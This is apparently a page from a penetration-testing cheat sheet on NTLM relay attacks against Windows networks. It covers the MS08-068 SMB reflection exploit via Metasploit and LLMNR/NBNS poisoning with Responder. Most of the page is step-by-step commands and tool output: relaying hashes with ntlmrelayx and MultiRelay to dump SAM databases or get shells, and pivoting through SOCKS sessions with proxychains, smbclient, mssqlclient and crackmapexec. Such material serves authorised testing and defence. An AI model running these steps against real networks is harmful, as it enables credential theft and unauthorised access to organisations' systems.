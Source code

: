 NTLM reflection vulnerability in the SMB protocolOnly targeting Windows 2000 to Windows Server 2008.

> This vulnerability allows an attacker to redirect an incoming SMB connection back to the machine it came from and then access the victim machine using the victim’s own credentials.

* https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS08-068

```powershell
msf > use exploit/windows/smb/smb_relay
msf exploit(smb_relay) > show targets
```

#### SMB Signing Disabled and IPv4

If a machine has `SMB signing`:`disabled`, it is possible to use Responder with Multirelay.py script to perform an `NTLMv2 hashes relay` and get a shell access on the machine. Also called **LLMNR/NBNS Poisoning**

1. Open the Responder.conf file and set the value of `SMB` and `HTTP` to `Off`.
    ```powershell
    [Responder Core]
    ; Servers to start
    ...
    SMB = Off     # Turn this off
    HTTP = Off    # Turn this off
    ```
2. Run `python  RunFinger.py -i IP_Range` to detect machine with `SMB signing`:`disabled`.
3. Run `python Responder.py -I <interface_card>` 
4. Use a relay tool such as `ntlmrelayx` or `MultiRelay`
    - `impacket-ntlmrelayx -tf targets.txt` to dump the SAM database of the targets in the list. 
    - `python MultiRelay.py -t <target_machine_IP> -u ALL`
5. ntlmrelayx can also act as a SOCK proxy with every compromised sessions.
    ```powershell
    $ impacket-ntlmrelayx -tf /tmp/targets.txt -socks -smb2support
    [*] Servers started, waiting for connections
    Type help for list of commands
    ntlmrelayx> socks
    Protocol  Target          Username                  Port
    --------  --------------  ------------------------  ----
    MSSQL     192.168.48.230  VULNERABLE/ADMINISTRATOR  1433
    SMB       192.168.48.230  CONTOSO/NORMALUSER1       445
    MSSQL     192.168.48.230  CONTOSO/NORMALUSER1       1433

    # You might need to select a target with "-t"
    impacket-ntlmrelayx -t mssql://10.10.10.10 -socks -smb2support
    impacket-ntlmrelayx -t smb://10.10.10.10 -socks -smb2support

    # the socks proxy can then be used with your Impacket tools or CrackMapExec
    $ proxychains impacket-smbclient //192.168.48.230/Users -U contoso/normaluser1
    $ proxychains impacket-mssqlclient DOMAIN/USER@10.10.10.10 -windows-auth
    $ proxychains crackmapexec mssql 10.10.10.10 -u user -p '' -d DOMAIN -q "SELECT 1"   
    ```

